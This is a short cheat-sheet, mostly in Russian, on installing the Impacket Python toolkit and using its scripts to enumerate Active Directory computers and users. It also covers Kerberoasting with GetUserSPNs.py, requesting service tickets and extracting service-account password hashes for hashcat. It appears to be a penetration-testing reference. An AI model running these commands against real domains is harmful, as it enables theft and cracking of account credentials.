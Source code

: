 https://github.com/fortra/impacket
Пакет классов, написанных на Python для работы с различными библиотеками.
## Установка
Установка происходит через `pipx`
```bash
python3 -m pipx install impacket
```

If you want to play with the unreleased changes, download the development version from the [master branch](https://github.com/fortra/impacket/tree/master), extract the package, and execute the following command from the directory where Impacket has been unpacked:
```bash
python3 -m pipx install .
```

## Enumeration modules

**Компьютеры**
 `GetADComputers.py`
 ```bash
 GetADComputers.py -dc-ip 172.20.4.2 domain/user:password
 ```

**Учетные записи**
 `GetADUsers.py`
 ```bash
 GetADUsers.py -dc-ip 172.20.4.2 domain/user:password
 ```


## Kerberoasting

`GetUserSPNs.py` Модуль из пакета [[Impacket]]

Позволяет получать список сервисных учетных записей, билеты *TGS* и извлекать из них хэш паролей сервисных учетных записей.

**Запросить список *SPN***
```bash
GetUserSPNs.py -dc-ip 172.20.4.2 domain/user:password
```

**Запросить хэш из *TGS* билета для всех сервисных учетных записей**
```bash
GetUserSPNs.py -dc-ip 172.20.4.2 -request domain/user:password
```

**Запросить хэш из *TGS* билета по имени сервисной учетной записи**
```bash
GetUserSPNs.py -dc-ip 172.20.4.2 -request-user username domain/user:password
```

**Useful tips**
```bash
-ts # Print timestamp
-outputfile OUTPUT # Save hashes ouput in hashcat format
```

